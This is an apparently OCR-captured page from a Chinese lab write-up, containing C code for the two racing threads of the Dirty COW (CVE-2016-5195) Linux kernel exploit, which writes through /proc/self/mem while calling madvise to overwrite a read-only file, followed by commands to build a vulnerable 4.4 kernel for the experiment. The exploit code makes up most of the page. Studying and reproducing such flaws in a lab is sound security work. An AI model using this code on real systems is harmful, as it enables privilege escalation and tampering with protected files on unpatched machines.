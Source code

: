 ```c
void *procselfmemThread(void *arg)
{
	char *str;
	str = (char *)arg;

	int f = open("/proc/self/mem", O_RDWR);
	int i = 0, c = 0;
	while(i < 1000000 && !bSuccess)
	{
		lseek(f, (uintptr_t)map, SEEK_SET);
		c += write(f,str,strlen(str));
		i++;
	}
	close(f);
	printf("procselfmem %d \n\n", c);
}

void *madviseThread(void *arg)
{
	char *str;
	str = (char *)arg;
	int f = open(str, O_RDONLY);
	int i = 0, c = 0;
	char buffer1[1024], buffer2[1024];
	int size;
	lseek(f, 0, SEEK_SET);
	size = read(f, buffer1, sizeof(buffer1));
	while(i < 10000000)
	{
		c += madvise(map, 100, MADV_DONTNEED);
		lseek(f, 0, SEEK_SET);
		size = read(f,buffer2,sizeof(buffer2));
		if(size > 0 && strcmp(buffer1,buffer2))
		{
			printf("Hack success!\n\n");
			bSuccess = 1;
			break;
		}
		i++;
	}
	close(f);
	printf("madvise %d\n\n",c);
}
```

## 实验过程

内核版本4.4

```bash
sudo wget https://mirror.tuna.tsinghua.edu.cn/kernel/v4.x/linux-4.4.tar.xz
make defconfig
make bzImage -j8
```
